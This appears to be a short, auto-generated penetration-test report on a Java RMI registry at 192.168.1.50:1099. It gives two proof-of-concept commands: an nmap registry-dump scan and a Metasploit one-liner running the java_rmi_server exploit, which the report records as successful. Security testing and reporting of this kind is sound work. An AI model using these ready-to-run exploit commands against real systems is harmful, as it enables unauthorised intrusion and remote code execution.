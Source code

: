 # Java RMI Exploit Report for 192.168.1.50:1099

Generated: 2025-09-02 17:36:21


## RMI Registry Dump

- **Target**: 192.168.1.50:1099

- **Details**: RMI registry dump successful

- **PoC**: `nmap -p 1099 --script rmi-dumpregistry 192.168.1.50`


## Metasploit exploit/multi/misc/java_rmi_server

- **Target**: 192.168.1.50:1099

- **Details**: Successful exploitation with exploit/multi/misc/java_rmi_server

- **PoC**: `msfconsole -q -x 'use exploit/multi/misc/java_rmi_server; set RHOSTS 192.168.1.50; set RPORT 1099; run'`

